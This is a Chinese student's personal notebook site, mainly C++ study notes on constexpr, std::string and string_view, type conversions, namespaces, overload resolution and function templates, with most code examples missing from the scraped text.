一些碎碎念¶
约 407 个字 预计阅读时间 2 分钟
这里是我的个人笔记本，希望能用来记录一些学习过程中的笔记以及其他一些有趣的东西。
个人希望的是这个笔记本能够帮助我梳理平时学习到的各种东西🧐，同时也可用于平时和期末的复习。假如能帮到其他人也再好不过了
严重拖延症患者，不定时更新，笔记若有误请大胆提出
目前共有 72 个页面，179691 个字，5143 行代码。
如果笔记中有任何错误或者表述不够清楚的地方还请提出，我看到之后会尽我所能修改或补充。
TODO¶
- 修改计组笔记的部分错别字、错漏等
- 补全概率论笔记（懒得补了怎么办）
- 学学 C++
- 看看 CSAPP（好多东西都是课程学过的，但多学点也没问题）
更新记录¶
2025¶
2024¶
Computer Science ↵
Computer Science¶
约 123 个字 预计阅读时间不到 1 分钟
Abstract
部分笔记来自于课堂笔记、课上PPT，部分来自于自学内容以及自己查阅的资料
Table of Contents¶
-
55 0 mins1740056411
-
1467 5 mins1740056411
-
134 0 mins1740056411
-
18157 29 61 mins1740056411
-
56732 549 195 mins1740056411
-
5522 391 23 mins1740056411
-
36814 4049 173 mins1740056411
编程语言 ↵
Programing Languages¶
约 62 个字 预计阅读时间不到 1 分钟
Abstract
这里用于记录和归纳在学习各种编程语言中的笔记。
有些笔记可能是系统性学习的过程，有些就只是一些零散知识点的归纳总结。
Table of Contents¶
C++ ↵
C++ 笔记¶
约 36810 个字 4034 行代码 预计阅读时间 198 分钟
写在前面的话
虽然之前已经在一定程度上了解并使用 C++ 了，但还未系统地学习过，这个页面主要用于记录我在学习 C++ 过程中的遇见的值得记忆和有意思的知识点（至少我是这么认为的）。
笔记主要来自于我在学习 www.learncpp.com 和《C++ primer》过程中的一些总结，同时也会参考一些其他来自互联网的资料。
- 笔记的初衷是在我本人遗忘某个知识点时可以快速地查阅，因此可能会有一些我认为是常识的内容没有记录在这里。
- 写笔记的过程就是不停往里加新东西，因此显得比较杂乱无章，也许将来某一天会把这些知识点系统性地整理一遍（会，会吗？）。
变量¶
初始化¶
C++中有 5 种常见的初始化形式：
{}被称为初始化器，它可以防止窄化（narrowing）的发生，是一种更加安全的初始化方法。
int x = {5};的形式，称为复制列表初始化（copy list initialization），但这种方法比较少见。
何时使用{ 0 }和{}进行初始化？
-
当我们希望初始化一个变量的值为 0 时，应该使用
{ 0 }，如 -
当变量的初始化值是临时存在的，并且将要被替换时，应该使用
{}，如
未被使用的初始化变量
当我们初始化一个变量但未使用时，编译器会发出警告
一般而言我们可以通过直接删除掉或注释掉这个变量的声明来消除警告，但如果我们只是当前用不到这个变量，在将来可能会用到，我们可以通过在变量名前加上[[maybe_unused]]来消除警告。
- 此外，编译器在编译后可能会优化程序中的这些变量，因此通常来说它们不会影响性能。
constexpr¶
编译器在编译时可能会对程序中一些常量进行优化，例如
就可能会被编译器直接优化为
要实现上面这个程序在编译层面的优化，就需要编译器在编译时就得知这个变量是一个常量，并且知道这个常量的值是多少。但是对于上面的这个例子而言，编译器可能优化，也可能不优化，因为它通常并不能确定能否实现编译时优化（compile-time optimization）。
如果我们希望编译器总能在编译时优化这个常量，我们可以使用 constexpr 关键字提示编译器这个变量是一个在编译时就可以确定值的常量，格式为
其中 expr 是一个在编译时就可计算出结果的表达式，称为常量表达式（constant expression）。
常量表达式
通常而言，常量表达式包含以下内容：（较常见的内容）
-
字面值常量（literal constants）
例如
5、3.14、'a'、"hello"等 -
以常量表达式作为操作数的运算符
例如
5 + 3、2 * sizeof(int)等 -
constexpr变量 -
被常量表达式初始化的常量整形变量
例如
constexpr int x { 5 };，这是一个来自于历史原因的例外——在现代 C++ 中，constexpr variable 是更优选 -
constexpr function calls with constant expression arguments
调用常量表达式作为参数的 constexpr 函数
以下内容不能作为常量表达式被使用
-
Non-const variables
非常量变量
-
操作数不是常量表达式的运算符
-
Const non-integral variables
非整型的常量变量（即使它是被一个 constexpr variable 初始化的）
-
调用 non-constexpr 函数的函数（即使函数的返回值是常量表达式）
- 函数的参数（即使是 constexpr 函数）
- 运算符
new，delete，throw，typeid，operator,（逗号运算符）
包含以上任意一个的表达式都是运行时表达式（runtime expression）。
const vs. constexpr
const意味着变量的值在被初始化后不可改变。initializer 的值可以在编译时已知或运行时已知，这个变量在运行时才可被计算出来。constexpr意味个变量可以在常量表达式中使用，它的值在编译时就已知，initializer 的值必须在编译时就已知，这个变量可在编译时或运行时被计算出来。
Extra
一个常量表达式可以在编译时求值，但编译器不一定会这么做。编译器可能会选择在运行时求值，这样可以减少编译时间。
- 编译器只在需要常量表达式时才被要求在编译时计算常量表达式的值，也就是说，在不刚需常量表达式的语句中，编译器可以选择在编译时还是在运行时计算常量表达式的值。
例如
上面的 x 是一个常量变量，它的初始值必须在编译时就确定，因此编译器一定会在编译时就计算 3 + 4 的值。而 y 是一个非常量变量，编译器可以选择在编译时计算 3 + 4 的值，也可以选择在运行时计算。
constexpr 函数¶
constexpr 函数是可以在常量表达式中调用的函数。当 constexpr 函数需要在编译时就计算出结果时（例如它的返回值是一个 constexpr variable 的 initializer），它必须在编译时就运行；否则，它可以在程序编译时或运行时运行。
多文件程序与全局变量¶
- 非 const 的全局变量被认为是
extern的，即它可以被其他文件访问。如果我们在一个文件中定义了一个全局变量，而在另一个文件中使用这个全局变量，我们需要在使用的文件中前向声明这个全局变量。 - const 的全局变量会被默认是
static的，即它只能被当前的文件访问和使用。如果我们希望在另一个文件中使用这个 const 全局变量，我们需要在定义的文件中使用extern关键字来定义这个 const 全局变量，同时在使用它的文件中前向声明这个 const 全局变量。
| a.cpp | |
|---|---|
Abstract
std::string¶
传统的 C 风格字符串是一个字符数组，以空字符 '\0' 结尾，它在一些情况下使用并不方便（例如不能通过赋值来为字符串分配新的值）。为此 C++17 引入了两种额外的字符串类型：std::string（需要 #include <string>） 和 std::string_view需要 #include <string_view>）。它们并不是 fundamental type 而是 class type，因此它们有一些额外的功能。
std::string 可以通过赋值语句来更新字符串的值，也可以储存不同大小的字符串
在上面的例子中，我们使用长度为 8 的 C 风格字符串 "Chihaya" 初始化了 name1（包括空字符 '\0'），但 std::string 也可以使用其他的 std::string 对象来初始化或赋值
Info
如果 std::string 没有足够的内存来存储字符串，它将使用动态内存分配来请求额外的内存空间存储字符串。这意味着 std::string 可以存储任意长度的字符串，只要系统内存足够，但也意味着 std::string 的操作可能会比 C 风格字符串慢。
输入字符串¶
当我们直接使用 std::cin 来输入字符串时，它会在遇到空白字符（空格、制表符、换行符等）时停止输入，因此我们无法输入包含空白字符的字符串。
对于这种情况，我们可以使用 std::getline() 来读取整行的输入。std::getline() 需要两个参数：第一个是 std::cin，第二个是一个 std::string 对象，它会读取整行的输入并存储到这个 std::string 对象中。
上面这个程序会把整行的输入 Nagasaki Soyo 都存储到 name 中，而如果直接用 std::cin 的话，只会存储 Nagasaki。
std::ws 是啥
std::ws 是一个操纵符（manipulator），它会告诉 std::cin 忽略输入流中的前导空白字符（空格、制表符、换行符等）。
在上面的例子中，我们使用 std::ws 来忽略 std::cin 中的前导空白字符，这样可以保证 std::getline() 不会读取到有效信息之前的空白字符，直到遇到换行符为止才会停止读取。
std::string 的长度¶
std::string 是一个类类型，我们可以直接调用它的成员函数 length() 来获取字符串的长度，比如
尽管 std::string 要求以 null 字符结尾（从 C++11 开始），但 length() 并不会把 null 终止字符计算在内。
Tip
std::string::length() 返回的是一个无符号整数值（很可能是 size_t），因此如果我们想要把字符串的长度分配给一个 int 变量，最好使用 static_cast 来避免编译器出现有关有符号/无符号转换警告。
获取字符串长度的其他方法
在 C++20 中，我们还可以使用 std::ssize() 函数来用一个大的有符号整数来获取 std::string 的长度（通常为 std::ptrdiff_t）
由于 std::ptrdiff_t 可能大于 int，因此如果我们要用一个 int 变量来保存长度，也要使用 static_cast 来避免警告。
函数与 std::string¶
由于 std::string 的初始化成本很高，当我们把 std::string 作为函数的参数时，我们应该尽量避免使用按值传递，因为这会导致函数参数的拷贝初始化，在大部分情况下，我们应该使用引用传递或是改用 std::string_view 作为参数。
类似地，在大多数情况下，我们也应该避免在函数中按值返回 std::string，因为这同样会产生一个昂贵的副本。
Literals for std::string¶
默认情况下，"Hello" 会被认为是一个 C 风格字符串，它的类型是 const char[6]，是一个字面量常量（literal constant）。
如果我们想要创建一个 std::string 类型的字面量，我们可以在双引号后添加一个 s 后缀，其中 s 必须小写，例如 "Hello"s。
s后缀在命名空间std::literals::string_literals中定义，我们可以使用using namespace std::literals::string_literals;来使用它。因为这个命名空间中的定义几乎不会和任何其他代码发生冲突，因此我们直接using是安全的。
Note
"Hello"s 会被解析为 std::string { "Hello", 5 }，它创建一个临时的使用 C 风格字符串字面量来初始化的 std::string 对象（长度为 5，不包括隐式 null 终止符）。
std::string_view¶
我们上面提到过 std::string 进行初始化（或复制）的开销很大，例如下面的例子中，为了输出一个字符串，我们不得不制作了 "Hello, world!" 的两个副本：一个是在 main() 中初始化 std::string 对象 s，另一个是在 printString() 中初始化参数 str。
为了避免初始化带来的开销，我们可以使用 std::string_view 来对一个现有字符串（C 风格字符串、std::string 对象或另一个 std::string_view 对象）的只读访问——可以访问和使用字符串的内容，但不能修改它。
如何理解 std::string_view
“view” 的含义可以理解为它只是一个指向现有字符串的“视图”——比起直接制作一个完全相同的物体，我们拍一张照片带走以便于后续的观看显然更方便也更经济。
在下面的例子中我们在函数的参数声明中使用 std::string_view 来代替 std::string，从而避免了初始化 std::string 带来的开销。
我们还可以从上面的例子中得知一些关于 std::string_view 的特点：
std::string_view可以用许多不同类型的字符串进行初始化，包括C 风格字符串、std::string对象或另一个std::string_view对象。- 当函数使用
std::string_view作为参数时，我们可以直接传递 C 风格字符串、std::string对象或另一个std::string_view对象，在传参过程中 C 风格字符串和std::string将会被隐式转换为std::string_view。
赋值¶
对 std::string_view 对象的赋值只会改变它查看的字符串，而不会改变原先查看字符串的任何内容。
上面的例子中，sv = "John" 会使 sv 转向查看字符串 "John"，但不会改变 name 的值。
Literals for std::string_view¶
std::string_view 的字面量后缀是 sv，例如 "Hello"sv。它的定义在命名空间 std::literals::string_view_literals 中，我们也可以直接使用 using namespace std::literals::string_view_literals; 来使用它，原因和 std::string 的字面量后缀一样。
viewer¶
std::string_view 在它的整个生命周期中都依赖于它所查看的字符串的存在，如果这个字符串被销毁了，那么 std::string_view 将会指向一个无效的内存地址，这会导致未定义行为。
dangling view
当 std::string_view 指向一个已经被销毁的字符串时，我们称这个 std::string_view 为悬空视图（dangling view）。
- 可以和悬空指针类比
例如在下面几种情况中，sv 都会成为一个悬空视图：
| case 1 | |
|---|---|
在第一种情况中，我们使用局部变量 s 初始化了 sv，但当 s 超出作用域时，它会被销毁，因此 sv 将会成为一个悬空视图。
| case 2 | |
|---|---|
在第二种情况中，函数的返回值会存储在一个临时变量中，这个临时变量会被用于初始化 name，但这个初始化语句结束后，这个临时变量就会被销毁，因此 name 将会成为一个悬空视图。
Warning
- 不要使用
std::string字面量来初始化一个std::string_view。 - 使用 C 风格字符串字面量或者
std::string_view字面量来初始化std::string_view是安全的，因为它们在整个程序的生命周期中都是有效的。 - 只要我们能够保证 C 风格字符串对象、
std::string对象或者std::string_view对象在std::string_view的整个生命周期中都是有效的，那么我们就可以使用它们来初始化std::string_view。
当 std::string_view 所指向的字符串对象被修改时，会导致未定义的行为
上面的例子中，可能出现两种情况：
- 当
s重新分配内存以存储新的字符串数据时，它会把原先的内存释放掉，这会导致sv指向的内存地址无效 -
当
s仍然使用原先的内存地址来存储新的字符串数据时，s会用新的字符串数据覆盖原先的字符串数据，std::string_view会查看新的字符串- 如果新字符串比原先的字符串长，那么
std::string_view查看到的是新字符串的子串 - 如果新字符串比原先的字符串短，那么
std::string_view查看到的是新字符串加上一些随机的垃圾字符
- 如果新字符串比原先的字符串长，那么
std::string_view 未必以 '\0' 结尾
由于 std::string_view 可以查看一个字符串的子串，因此它的结尾不一定是 '\0'，这意味着在绝大多数情况下我们不能把 std::string_view 当作 C 风格字符串来使用。当我们需要一个以 '\0' 结尾的字符串时，我们应该使用 std::string。
Abstract
-
std::string- 初始化和复制
std::string的成本很高，应尽量避免 - 尽可能避免按值传递
std::string，应该使用引用传递或std::string_view - 对
std::string的任何修改都会使得对应的std::string_view称为悬空视图 - 可以按值返回一个本地的
std::string对象
- 初始化和复制
-
std::string_viewstd::string_view是一个只读的字符串视图- 由于 C 风格字符串在整个程序的生命周期中都是有效的，因此总可以使用 C 风格字符串来初始化
std::string_view - 使用一个已经无效了的（dangling）
std::string_view会导致未定义行为
类型¶
类型转换¶
C++ 标准定义了将不同的基本类型（以及某些情况下的复合类型）转换为其他类型的规则，称为标准类型转换（standard type conversions）。标准转换可大致分为 4 类，
- Numeric promotions
- Numeric conversions
- Arithmetic conversions
- Other conversions
Numeric promotions¶
numeric promotion 指的是将较小（或称较窄）的整数类型转换为较大（或称较宽）的整数类型，在转换的过程中不会出现数据的丢失。
numeric promotion 包括两大类：
-
浮点数提升（floating-point promotion）
将
float类型转换为double类型 -
整型提升（integer promotion）
常见的整型提升包括
- 有符号的
char或有符号的short转换为int - 如果
int能保存unsigned char、char8_t、unsigned short的整个范围，那么就转换为int，否则转换为unsigned int bool可以被转换为int，其中true转换为1，false转换为0
- 有符号的
Tip
一些类型转换并不被认为是 numeric promotion，而被认为是 numeric conversion，例如 char 到 short，因为 int 到 long 在大多数系统中都是相同大小的。
Numeric conversions¶
数值转换（numeric conversion）有五种基本类型
-
将一种整型数据转换为任何其他的整型数据（不包括整型提升）
-
将一种浮点类型数据转换为任意其他的浮点类型（不包括浮点提升）
-
将一种浮点类型转换为任意整型
-
将一种整型转换为浮点类型
-
将整型或浮点类型转换为 bool
Arithmetic conversions¶
以下运算符要求它的操作数具有相同的类型，当操作数的类型不同时，会发生隐式类型转换，称为算术转换（arithmetic conversion）。
- 二元算数运算符
+、-、*、/、% - 二元关系运算符
==、!=、<、>、<=、>= - 二进制按位算术运算符
&、|、^ -
条件运算符
? :条件运算符的第一个参数会被认为是布尔类型，因此不要求它与后两个参数类型相同。
Note
重载运算符不受通常的算术转换规则的约束。
算术转换的规则较为复杂，因此我们这里只介绍化简过后的规则。
编译器会对各种类型进行一个排名
- long double
- double
- float
- long long
- long
- int
- short
它会参考以下的规则来决定如何进行算术转换
-
将两种类型进行简单转换
- 如果一个是整型另一个是浮点型，那么整型将会被转换为浮点型
- 如果两种类型同为整型或同为浮点型，那么会先进行数值提升（numeric promotion）
-
将两种类型变为相同的类型
- 如果此时两种类型一个是有符号的，另一个是无符号的，则参考下面的特殊规则
- 否则，排名较低的操作数将会转换为排名较高的操作数的类型
无符号数与有符号数的转换
- 如果无符号操作数的排名大于等于有符号操作数的排名，那么有符号操作数将会被转换为无符号操作数的类型。
- 如果有符号操作数的类型可以表示无符号操作数类型中的所有值，则无符号操作数将会被转换为有符号操作数的类型。
- 否则，两个操作数都转换为有符号操作数相应的无符号类型。
类型别名¶
在 C 中，我们使用 typedef 来为一个类型定义一个别名，而在 C++ 中，我们可以使用 using 关键字来定义类型别名。
这两种方法是等价的，但 using 更好用的地方在于我们不仅不容易出现在使用 typedef 时类型和类型的新名字的顺序相反的错误（typedef score int;），而且对于一些复杂的类型别名，using 更加直观。
比如下面的例子中，如果我们使用 typedef 时，就会得到一个相当丑陋并且难以理解的别名，而使用 using 就直观多了
类型推导¶
类型推导（type deduction，type inference）是指编译器根据变量的初始化表达式来推导变量的类型。我们可以是同 auto 关键字进行类型推导。
因为函数调用也可用于变量的初始化，所以我们也可以使用 auto 来推导变量类型为函数的返回类型（函数返回类型不能为 void）。
类型推导会删除 const¶
在大多数情况下，类型推导会删除（drop）推导类型中的 const 。例如：
如果我们想让 b 也是 const int 类型，我们可以使用 const auto
由于 constexpr 并不是类型系统的一部分，因此它不能进行类型推导。但值得一提的是 constexpr 是隐式的 const，也同样会在推导时把 const 删除。
命名空间¶
我们可以通过 namespace 关键字来创建命名空间，命名空间可以包含变量、函数、类等。通常来说，命名空间的名称以大写字母为开头
- 只有声明和定义可以出现在命名空间中，而不能包含赋值语句、函数调用等
- 命名空间里的函数定义可以包含函数所执行的语句
- 命名空间可以嵌套
作用域解析运算符¶
:: 被称为作用域解析运算符（scope resolution operator），它可以用于访问命名空间中的变量、函数等。
::的左侧是命名空间的名称，右侧是命名空间中的变量或函数- 假如
::左侧为空，则假定解析的是全局命名空间
不要使用 using namespace std 😡👊
使用 using namespace std 可能会导致命名空间 std 中定义的变量和函数与我们自己定义的变量和函数发生冲突，因此不推荐使用。
命名空间的标识符解析¶
如果我们在一个命名空间中使用标识符（变量或函数的名称）时没有提供解析范围，编译器会先尝试在本地命名空间中寻找匹配的标识符，如果没有找到则逐一向上查找直到找到匹配的标识符，或到达全局命名空间。
我们知道，在 :: 左侧为空时，假定解析的是全局命名空间，虽然这在多数情况下是多余的，因为全局命名空间是默认的，但在某些情况下，我们可能需要使用 :: 来明确指出我们要访问的是全局命名空间中的变量或函数。
命名空间中的前向声明¶
当我们使用一个命名空间中的函数时，也需要进行前向声明，通常而言我们可以直接 #include 命名空间所在的 .h 文件
| add.h | |
|---|---|
| add.cpp | |
|---|---|
| main.cpp | |
|---|---|
编译时使用 g++/clang main.cpp add.cpp -o main
嵌套命名空间¶
命名空间可以在另一个命名空间中定义，例如
| C++17 之前 | |
|---|---|
从 C++17 开始，我们也可以这样定义：
| C++17 及之后 | |
|---|---|
命名空间别名（namespace alias）¶
由于使用嵌套命名空间中的变量或者函数会很冗长，因此我们可以选择创建一个命名空间别名来简化代码。
命名空间的使用
向大众分发的代码应该使用命名空间，以避免其与其他代码发生冲突，通常一个顶级命名空间就足够了（例如 MyProject）。
这么做还有一个优点：在绝大多数代码编辑器中键入命名空间的名称之后，再输入 :: 编辑器就会自动显示该命名空间中的所有函数和变量作为补全的候选项。
未命名（匿名）命名空间¶
未命名命名空间（也称为匿名命名空间）是没有名称定义的命名空间，如下所示：
在未命名命名空间中声明的所有内容都被视为父命名空间的一部分，因此函数或变量即使是在未命名命名空间中声明的，也可以在父命名空间（上例时全局命名空间）中访问。
这看起来似乎没什么用处，但未命名命名空间中的所有标识符都不可以被其他文件访问（或者说具有内部链接），效果相当于 static 关键字。
当我们有大量内容仅允许当前的翻译单元使用时，使用匿名命名空间显然要比给所有的标识符都加上 static 更加方便。
函数¶
函数重载¶
我们把两个或多个函数的名称相同，但是参数列表不同的函数称为函数重载（function overloading）。
当对已重载的函数进行调用时，编译器将尝试根据函数调用中使用的参数将函数调用与适当的重载函数相匹配，这称为重载解析（overload resolution）。
Tip
编译器可以通过参数的数量、参数的类型进行重载解析，但不能通过函数返回值类型进行重载解析。
对于按值传递的参数，编译器不会考虑 const 限定符，因此下面这两个函数不能被编译器所区分
函数的类型签名
函数的类型签名（function signature）是指函数头中用于区分不同函数的部分，在 C++ 中，这包括函数名称、参数数量、参数类型和函数级限定符，不包括函数返回值类型。函数的类型签名可用于重载解析。
函数重载解析与模糊匹配¶
当调用一个已被重载的函数时，编译器将逐步执行一系列规则可，以寻找一个最佳的匹配。
-
编译器将尝试寻找最佳匹配。
- 首先，编译器将查看是否存在一个参数列表与函数调用中的参数列表完全一致的重载函数，如果有，那么这个函数就是最佳匹配，编译器将调用这个函数。
-
接着，编译器将尝试采用一些简单转换（trivial conversions）来匹配参数，包括：
- 左值到右值的转换
- 限定符的转换（例如非 const 到 const）
- 非引用到引用的转换
-
如果没有找到最佳匹配，编译器将会尝试通过对参数应用 numeric promotion 来寻找匹配的重载函数。
- 如果 numeric promotion 也没有找到匹配的重载函数，编译器则会尝试 numeric conversion。
-
如果 numeric conversion 也没能让编译器找到匹配项，那么编译器将尝试通过用户定义的类型转换（user-defined type conversion）来寻找匹配的重载函数。
在上例中，编译器首先发现没有能和
foo(X)完全匹配的重载函数，接着它依次尝试数值提升和数值转换，但都没有找到匹配的重载函数。最后编译器找到了一个用户定义的类型转换，它将X转换为int，因此foo(int)就成为了最佳匹配。- 如果用户定义的类型转换是
X转换到char的，那么编译器会先把它转换为char，然后把char提升为int。
- 如果用户定义的类型转换是
-
如果通过用户定义的转换也没能找到匹配项，编译器就会尝试查找使用省略号（
...）的重载函数。 - 如果此时还未找到匹配项，编译器将放弃并报告无法找到匹配函数的错误。
函数重载解析
在上面的每一个步骤中，编译器都会尝试对函数调用中的参数应用一大堆不同的类型转换，每次转换后，编译器都会检查是否有重载函数与之匹配，其结果有 3 种：
- 没有找到匹配的函数。编译器按顺序移动到下一步。
- 找到了一个最佳匹配，至此重载解析结束，后续步骤不再执行。
- 找到了多个可能匹配的函数，编译器将会报告一个模糊匹配（或称不明确匹配，ambiguous match）的编译错误。
ambiguous match¶
当编译器在同一步骤中发现多个可以匹配的函数时，编译器将停止匹配并发出编译错误，指出它发现了不明确的函数调用。
ambiguous match
| ambiguous match 1 | |
|---|---|
编译器在发现找不到 foo(long) 之后会尝试 numeric promotion，但 long 不能提升（暂时不考虑 long long），因此编译器会尝试数值转换。
但在检查所有数值转换规则的过程中，编译器发现 foo(int) 和 foo(double) 都可以通过数值转换匹配 foo(5L)，因此这里的函数调用被认为是模糊的。
| ambiguous match 2 | |
|---|---|
尽管我们可能主观地认为 foo(0) 应该调用 foo(unsigned int)，而 foo(3.14159) 应该调用 foo(float)，但编译器并不会这样认为。因为 0 是一个 int 类型的字面量，它可以被转换为 unsigned int或float ；而 3.14159 是一个 double 类型的字面量，它也可以被转换为 unsigned int 或 float。因此两次调用都是不明确的。
多个参数的重载函数匹配
如果有多个参数，编译器将依次将匹配规则应用于每个参数。最终选择的函数至少有一个参数比其他所有函数都更好，并且剩余参数至少不会比其他函数更差。
| example 1 | |
|---|---|
在上例中两个函数都与第一个参数完全匹配，但是第一个 print() 可通过数值提升来匹配第二个参数，第二个 print() 需要通过数值转换才能匹配第二个参数，因此第一个 print(char, int) 是最佳匹配。
| example 2 | |
|---|---|
在这个例子中 print(1, 1.0); 与 print(int, float) 的第一个参数完全匹配，但第二个参数需要进行数值转换；同时与 print(char, double) 的第二个参数完全匹配，但第一个参数需要进行数值转换。
因此这里不满足“至少有一个参数比其他所有函数都更好，并且剩余参数至少不会比其他函数更差”的条件，因此编译器认为这是一个不明确的函数调用。
删除函数¶
有时候我们在调用函数时不希望它通过类型转换匹配到了一个不能按预期运行的函数，例如
对于 printInt('a') 和 printInt(true) 而言，我们认为他们是没有意义的，我们并不希望输出一个字符对应的 ASCII 码或者输出一个布尔值对应的 0/1，我们该怎么做呢？答案是使用 = delete 说明符删除函数。
当我们调用一个已经被 = delete 的函数时，编译器将会报告一个编译错误，告诉我们这个函数已经被删除了。
Tip
= delete 表示的是“这个函数不应该被调用”，而不是“这个函数不存在”。因此被删除的函数也会参与重载函数的解析过程，printInt(5.0) 会出现模糊匹配问题。
删除所有不匹配的重载函数
对可能的各种参数逐一使用 = delete 有时候会导致代码很冗长，这时我们可以通过函数模板来删除所有不匹配的重载函数。
默认参数¶
在函数声明时，可以给一些参数指定默认值，这样在调用函数时，如果没有提供这些参数的值，编译器将使用默认值。
- 在函数调用中，任何显式提供的参数都从最左边开始使用，而未提供的参数将使用默认值。
-
如果为一个参数提供了默认值，那么它右边的所有参数都必须有默认值。
下面这个声明是不允许的
-
如果不止一个参数具有默认值，那么其中最左边的参数应当是最有可能由用户显式设置的参数
默认参数不能多次声明
函数的默认参数不能再同一翻译单元中重复声明，这意味着对于具有前向声明和函数定义的函数，默认参数可以在前向声明中出现，也可以在函数定义中出现，但不可同时在两者中出现。
默认参数还必须在使用之前进行声明，例如下面的代码就是错误的
因此我们通常会在前向声明中，而非函数定义中声明默认参数。同时如果前向声明位于头文件中，也便于它在被其他文件使用前观察到。
默认参数可能导致模糊匹配¶
默认参数很容易导致调用的函数不明确，例如
在这里，编译器无法判断调用 foo(int) 还是 foo(double)。
我们还有另一个例子：
对于 print(1) 而言，编译器无法判断调用print(int)、print(int, int) 还是 print(int, double)。
函数模板¶
函数模板是指一种通用的函数定义，它使用一个或多个类型参数来定义一个函数的模板，在使用时编译器可以使用单个模板来生成一系列相关的函数。
创建函数模板时，我们使用占位符类型（placeholder type）来代替函数的参数类型、返回类型或者函数体中将要被使用的类型。在使用函数模板前，我们需要进行模板参数声明（template parameter declaration），模板参数声明的范围仅限于跟在它后面的函数模板（或类模板）。因此，每个函数模板（类模板）都需要有自己的模板参数声明。
在模板参数声明中，我们以关键字template开头，它告诉编译器我们正在创建一个模板。接下来，我们在尖括号 ( <> ) 内指定模板将使用的所有模板参数。对于每个类型模板参数，我们使用关键字typename或class ，后跟类型模板参数的名称（例如T）。
当函数模板被实例化时，编译器将模板形参替换为模板实参，然后编译生成的实例化函数。函数是否编译取决于每种类型的对象在函数内的使用方式。
从函数模板创建具有特定类型的函数的过程称为函数模板实例化（function template instantiation，或简称实例化）。当函数因函数调用而实例化时，称为隐式实例化。从模板实例化得到的函数在技术上称为特化，但在通用语言中通常称为函数实例。
Example
在这个例子中，max(3, 5) 实例化为 max<int>(int, int)，而 max(3.0, 5.0) 实例化为 max<double>(double, double)。
我们还可以指定函数模板实例化某种特定的参数，例如我们可以使用 max<long>(1, 2) 来实例化得到 max<long>(long, long)，其中 1 和 2 会被隐式转换为 long。
具有多个模板参数的函数模板¶
现在我们考虑下面的程序
在调用 max(2, 3.5) 时，我们传递了 int 和 double 两种不同类型的参数，编译器首先发现并不存在一个 max(int, double) 的函数。接着在编译器寻找函数模板时，发现了 max<T>(T, T)，但是这里要求函数的两个参数是相同类型的，于是无法找到一个匹配的函数模板，这个函数调用无法解析，编译器会报告一个编译错误。
为了解决这个问题，我们可以对函数调用的参数进行显式类型转换，比如 max(static_cast<double>(2), 3.5)，或者我们也可以明确地指定函数模板把模板参数实例化为哪一种类型，比如 max<double>(2, 3.5)。
实际上解决这个问题的最好办法是让函数模板接受多个模板参数，这样我们就可以传递不同类型的参数给函数模板。
但是这样还有一个问题，当我们调用这个函数时，返回值类型将始终与第一个参数的类型相同，比如 max(2, 3.5) 的返回值将是 3 而非 3.5。这种情况下我们可以使用 auto 来很方便的解决这个问题：
这样一来 max(2, 3.5) 的返回值将是 3.5，符合我们的预期。
前向声明
如果我们要对一个函数进行前向声明，那么我们必须明确返回类型，这代表着我们不能直接使用 auto 来声明函数模板。但是我们还可以使用 std::common_type_t 来获取 T 和 U 的通用类型作为我们的显式返回类型。
缩写函数模板
C++20 引入了auto关键字的新用法：当auto关键字在普通函数中用作参数类型时，编译器会自动将函数转换为函数模板，每个auto参数成为独立的模板类型参数。这种创建函数模板的方法称为缩写函数模板（abbreviated function template）。
例如
就相当于
如果我们希望函数模板里的每一个模板类型参数都是独立的类型，就可以选择使用上面的缩写函数模板。但如果我们想让多个模板类型参数是相同的类型，那么目前并没有更简洁的方法来实现下面的写法：
非类型模板参数¶
非类型模板参数（non-type template parameter）是指具体有固定类型的模板参数，它以占位符的形式作为模板参数向函数传递 constexpr 值。
非类型模板参数可以是以下的任何类型：
- 整型
- 枚举类型
std::nullptr_t- 浮点型（从 C++20 开始）
- 指向一个对象的指针或引用
- 指向函数的指针或引用
- 指向成员函数的指针或引用
- 字面量类类型（从 C++20 开始）
Example
编译器看到函数调用 print<5>() 时，会实例化一个如下所示的函数
非类型模板参数主要在我们需要将 constexpr 值传递给函数（或类类型）时使用，这样它就可以在需要常量表达式时传递数据。
从 C++17 开始，非类型模板参数可以使用auto让编译器从函数调用的实参中推导出非类型模板参数
多文件程序中使用函数模板¶
考虑下面的程序，它并不能正常工作
| main.cpp | |
|---|---|
| add.cpp | |
|---|---|
在 main.cpp 中，我们调用addOne<int>和addOne<double>，但是编译器由于在这个翻译单元中看不到 addOne() 的定义，它无法在 main.cpp 中实例化这些函数。但是它确实看到了 addOne 的前向声明，并且会假设这些函数存在于其他地方，并将在稍后链接。
当编译器去编译 add.cpp 时，它会看到函数模板addOne的定义。但是,add.cpp 中没有使用此模板，因此编译器不会实例化任何内容。最终结果是链接器无法将对 main.cpp 中的addOne<int>和addOne<double>的调用连接到实际函数，因为这些函数从未实例化。
解决这个问题最传统的办法是把所有的模板代码都放入 .h 头文件中，而非 .cpp 源文件中
| add.h | |
|---|---|
| main.cpp | |
|---|---|
这样，任何需要访问模板的文件都可以 #include 相关头文件，模板定义将由预处理器复制到源文件中，然后编译器将能够实例化所需的任何函数。
constexpr 函数¶
一般的函数是在程序运行时执行的，因此不能参与到一个常量表达式之中。在函数返回值类型之前加上一个 constexpr 关键字可以告诉编译器这个函数可以在编译时执行，因此可以用于常量表达式。
如果一个被使用的常量表达式中包含一个 constexpr 函数，那么这个 constexpr 函数调用必须在编译时求值。
要在编译时对函数进行执行，还必须满足其他两件事：
- 调用 constexpr 函数时使用的参数必须都是编译时已知的（例如常量表达式）
- constexpr 函数中的所有语句和表达式都必须可在编译时计算
Tip
和 constexpr 变量类似，constexpr 函数表示的是“可以在编译时计算的函数”，这意味着它可以在常量表达式中使用，但实际上它也可能在运行时才求值，例如
在这个例子中，x 和 y 都不是常量表达式，因此在编译时 greater(x, y) 无法被解析，它会像一个普通函数一样在程序运行时返回结果，constexpr 在这种情况下没有任何作用。
当 constexpr 函数中包含了非常量表达式，或者其他的非 constexpr 函数时，它就无法在编译时被运算，这时它也无法被用在常量表达式中。
因此 constexpr 函数需要被用在常量表达式之中时，它必须在编译时被计算。在我们把 constexpr 函数用在常量表达式中时最好随时对代码进行编译、检查，以测试它是否能通过编译。
constexpr/consteval 函数的参数并不是 constexpr 的
constexpr 函数的参数并不是隐式的 constexpr 变量，也不能声明为 constexpr，因此他们不能在函数内的常量表达式中使用。
在这个例子中，constexpr 函数的参数 b 不是 constexpr 的（即使函数调用中的 a 时一个常量表达式），它不能被用在需要常量表达式的任何地方。
- constexpr 函数的参数可以声明为
const，但在这种情况下，它们仅被视为一般的运行时常量。
constexpr 函数是隐式内联的¶
